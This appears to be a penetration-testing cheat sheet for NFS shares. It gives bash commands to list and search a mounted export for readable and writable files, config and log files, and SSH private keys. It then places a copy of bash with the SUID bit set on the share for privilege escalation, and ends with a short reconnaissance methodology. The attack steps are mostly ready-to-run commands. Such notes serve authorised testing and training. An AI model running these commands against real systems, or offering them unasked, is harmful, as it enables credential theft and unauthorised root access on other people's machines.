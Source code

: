 ## List mounted share contents
```bash
ls -la /tmp/nfs_mount/
```

## Find readable files in mount
```bash
find /tmp/nfs_mount/ -type f -readable 2>/dev/null
```

## Find writable files in mount
```bash
find /tmp/nfs_mount/ -type f -writable 2>/dev/null
```

## Search for sensitive files
```bash
find /tmp/nfs_mount/ -name "*.txt" -o -name "*.conf" -o -name "*.log" 2>/dev/null
```

## Search for SSH keys
```bash
find /tmp/nfs_mount/ -name "id_rsa" -o -name "id_dsa" -o -name "authorized_keys" 2>/dev/null
```

## Copy SUID bash for privilege escalation
```bash
cp /bin/bash /tmp/nfs_mount/bash_suid
```

## Set SUID bit on bash copy
```bash
chmod +s /tmp/nfs_mount/bash_suid
```

## Unmount NFS share
```bash
umount /tmp/nfs_mount
```

---

# NFS Enumeration Methodology

## Initial Reconnaissance

1. Check if NFS port 2049 is open
2. Enumerate RPC services (port 111)
3. List exported shares with showmount
4. Mount accessible shares
5. Explore for sensitive files and misconfigurations
6. Test for privilege escalation opportunities
